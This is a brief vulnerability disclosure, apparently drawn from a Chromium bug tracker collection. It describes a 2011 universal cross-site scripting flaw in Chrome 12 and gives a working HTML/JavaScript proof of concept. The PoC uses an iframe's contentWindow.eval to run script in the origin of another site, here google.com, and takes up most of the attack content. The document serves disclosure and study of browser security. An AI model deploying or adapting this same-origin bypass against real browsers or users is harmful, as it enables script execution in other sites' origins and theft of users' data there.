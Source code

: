# Universal XSS using `contentWindow.eval`

> May 24 2011

## VULNERABILITY DETAILS

PoC:

```html
<script>
  i = document.body.appendChild(document.createElement("iframe"));
  f = i.contentWindow.eval('(function(){location="javascript:alert(location)"})');
  i.src = "http://google.com";
  i.onload = f;
</script>
```

> From comment #30 in bug 83096: ~~access to this bug is restricted~~
> it becomes a different-origin window after eval() is called.
> eval() is used to construct a function with the context of that window.

## VERSION

Chrome: Version 12

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=83743
